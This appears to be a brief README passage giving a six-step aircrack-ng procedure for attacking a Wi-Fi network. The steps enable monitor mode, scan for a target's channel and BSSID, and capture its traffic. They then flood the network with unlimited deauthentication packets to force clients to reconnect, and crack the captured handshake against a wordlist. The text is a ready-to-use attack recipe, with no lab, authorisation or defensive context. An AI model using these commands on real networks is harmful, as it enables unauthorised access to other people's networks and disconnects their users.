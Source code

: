 1. `sudo airmon-ng check kill` : Shutdown wifi processes before switching to monitor mode
2. `sudo airmon-ng start wlan0` : Start monitor mode
3. `sudo airodump-ng wlan0mon` : Start scanning local networks; Quit after finding target channel number and BSSID
4. `sudo airodump-ng -w wificapture -c channelNumber --bssid BSSIDnumber wlan0mon` : Start scanning target 
5. `sudo aireplay-ng --deauth 0 -a BSSIDnumber wlan0mon`: Send deauthentication packets
6. `aircrack-ng wificapture.cap -w wordlist.txt`

